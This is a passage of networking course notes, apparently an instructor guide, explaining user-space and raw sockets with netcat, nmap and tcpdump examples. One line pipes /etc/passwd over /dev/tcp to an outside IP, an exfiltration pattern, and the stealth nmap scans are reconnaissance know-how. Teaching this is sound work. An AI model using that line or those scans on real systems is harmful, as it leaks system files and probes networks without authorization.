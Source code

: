       - Opening listening ports above the Well-Known range (1024+)

```
python -m SimpleHTTPServer 7800
nc -lvp 1234
```

      - Using /dev/tcp or /dev/udp to transmit data

```
cat /etc/passwd > /dev/tcp/10.0.0.1/1234
```

  - Kernel Space Sockets:
    - Raw socket - A raw socket allows for the direct sending and receiving of IP packets without automatic protocol-specific transport layer formatting, meaning that all headers are typically included in the packet and not removed when moving up the network stack.

      - Raw sockets tend to be specially crafted packets that do not follow normal communication methods.

      - Any traffic that does not have a transport layer header (TCP/UDP) can be a RAW Socket.

        - icmp - ping

        - OSPF

        - EIGRP

      - Packets that have to be crafted with various flag combinations and other header field manipulation must be created as RAW Sockets. Tools like HPING and Nmap needs to open raw sockets when attempting to set specific flags for performing certain scans.

```
nmap -sX 10.0.0.1
nmap -sN 10.0.0.1
nmap -sF 10.0.0.1
```
      - Tcpdump requires raw sockets in order to receive each packet, in its entirety, for total packet analysis. The operating system normally strips all the headers when receiving data so to examine these packets with their headers intact they have to be captured as RAW Sockets.

```
tcpdump -w capture.pcap
```
      - Using Scapy to craft or modify a packet for transmission

      - Using Python to craft or modify Raw Sockets for transmission

    - Opening well ports in the Well-Known range (0-1023) require kernel access.

```
python -m SimpleHTTPServer 80
nc -lvp 123

```

Instructor Note
Demonstrate these as needed for clarification.


#### 6.1.2.3 Capture Library (Image)
